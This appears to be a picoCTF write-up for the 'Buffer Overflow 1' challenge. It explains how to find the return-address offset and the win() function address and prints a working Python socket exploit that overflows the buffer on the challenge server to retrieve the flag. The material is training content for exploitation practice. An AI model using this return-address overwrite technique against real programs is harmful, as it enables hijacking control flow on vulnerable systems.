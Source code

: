 # Buffer Overflow 1

## Problem

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the program. You can view source here. And connect with it using nc saturn.picoctf.net 57777

## Solution

1. search for the offset where we can change the eip: we found it on the `44th character + new_eip`
2. search for the address of `win()` function: using the command `$ readelf -s vuln | grep win` we know that the address of `win()` is 080491f6
3. search for the little endian of `win()`: \xf6\x91\x04\x08
4. run the program: `python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 44 + b"\xf6\x91\x04\x08")' | ./vuln` we then get the flag that we created, which is `picoCTF{REDACTED}`
5. create the program to solve the challenge
    ```
    #!/usr/bin/env python3

    import socket
    from argparse import ArgumentParser
    import struct

    # parse console arguments
    parser = ArgumentParser()
    parser.add_argument('host', type=str, help="addr or ip to connect")
    parser.add_argument('port', type=int, help="port to connect")

    args = parser.parse_args()
    [host, port] = [args.host, args.port]

    # create payload
    offset = 44
    new_eip = struct.pack("<I", 0x080491f6)

    payload = b"".join([
        b"A" * offset,
        new_eip,
        b"\n"
    ])

    # connect to server
    conn = socket.socket()
    conn.connect((host, port))
    print(conn.recv(4096).decode('utf-8'))
    conn.send(payload)
    print(conn.recv(4096).decode('utf-8'))
    print(conn.recv(4096).decode('utf-8'))
    ```
6. here's the bash script to just get the flag: `python3 test.py saturn.picoctf.net 62684 | grep -oE picoCTF{.*?} --color=none`

here's the flag: `picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}`

### Additional Notes

- to get the output logs: `sudo dmesg`
- to get the symbols binaries of the program: `readelf -s vuln`